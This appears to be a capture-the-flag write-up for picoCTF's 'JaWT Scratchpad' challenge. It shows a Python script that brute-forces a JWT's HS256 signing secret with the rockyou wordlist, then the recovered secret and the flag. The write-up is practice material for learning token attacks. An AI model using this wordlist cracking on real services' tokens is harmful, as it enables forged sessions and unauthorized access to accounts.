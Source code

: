 <h1>JaWT Scratchpad</h1>
<h3>Description</h3>
<p>Check the admin scratchpad! https://jupiter.challenges.picoctf.org/problem/58210/ or http://jupiter.challenges.picoctf.org:58210</p>
<h3>Solution</h3>

<label>Input "john" dan cek header response</label>
<pre>
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y
</pre>

```python3
import base64
import hmac
import jwt
import hashlib

def bruteforce_secret():
    jwt = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y"
    header = jwt.split(".")[0]
    payload = jwt.split(".")[1]
    message = f"{header}.{payload}".encode()
    file = open("/usr/share/wordlists/rockyou.txt","r",encoding='latin')
    for i in file:
        secret = i.strip("\n")
        signature = hmac.new(secret.encode(),message,hashlib.sha256).digest()
        signature_base64 = base64.urlsafe_b64encode(signature).decode().rstrip("=")
        result = f"{header}.{payload}.{signature_base64}"
        if jwt == result:
            print("Secret Found :",secret)

```

<p>Secret : <b>ilovepico</b></p>
<h3>Flag</h3>
<pre>
picoCTF{jawt_was_just_what_you_thought_44c752f5}
</pre>
